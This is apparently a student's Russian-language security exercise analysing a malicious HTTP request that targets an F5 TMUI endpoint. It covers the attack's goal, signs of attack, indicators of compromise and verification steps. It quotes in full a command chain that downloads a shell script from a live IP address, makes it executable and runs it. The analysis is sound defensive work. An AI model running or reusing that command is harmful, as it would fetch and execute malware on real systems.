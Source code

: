 # В файле task1.txt привёден текст HTTP-запроса.  
## 1. Опишите, что происходит (чего добиваются атакующие).  
В HTTP запросе пытаются реализовать удалённое выполнение команд (RCE):

Команды которые хотят выполнить:

wget http://136.144.41.3/igipdmcdmsklcmk/ohsitsvegawellrip.sh; chmod 777 ohsitsvegawellrip.sh; sh ohsitsvegawellrip.sh; wget https://iplogger.org

1) wget http://136.144.41.3/igipdmcdmsklcmk/ohsitsvegawellrip.sh - установка скрипта.
2) chmod 777 ohsitsvegawellrip.sh - выдача полных прав скрипту.
3) sh ohsitsvegawellrip.sh - выполнение скрипта.
4) wget https://iplogger.org - дополнительная загрузка ip логера для мониторинга и проведения доп. атак.

## 2. Выделите признаки, по которым понятно, что происходит атака.  
В ссылке присутствует /.. , это может указывать на обход механизма безопасности, такого как доступ к файлам.

В запросе устанавливается скрипт с неизвестного ip адреса по незащищенному соединению, потом этому скрипту выдаются ПОЛНЫЕ права (не только право на исполнение), далее он запускается.

После этого дополнительно устанавливается iplogger.

## 3. Выделите IoС'и, которые могут быть использованы для выявления подобной активности в будущем.  
136.144.41.3 - ip адрес с которого устанавливается вредоносный скрипт

Команды wget, chmod, и sh в запросах могут служить индикатором попыток удалённой загрузки и выполнения вредоносных скриптов.

## 4. Укажите, каким образом можно удостовериться в том, удалось ли атакующим достигнуть того, чего они добивались этим запросом.   
Проверить логи веб-сервера на наличие успешных запросов к tmui/locallb/workspace/tmshCmd.jsp

Проверить наличие загруженного файла ohsitsvegawellrip.sh

Убедиться, что на сервере не запущены подозрительные процессы, которые могли быть инициированы этим скриптом.

Анализировать сетевой трафик на предмет исходящих соединений к IP-адресу 136.144.41.3

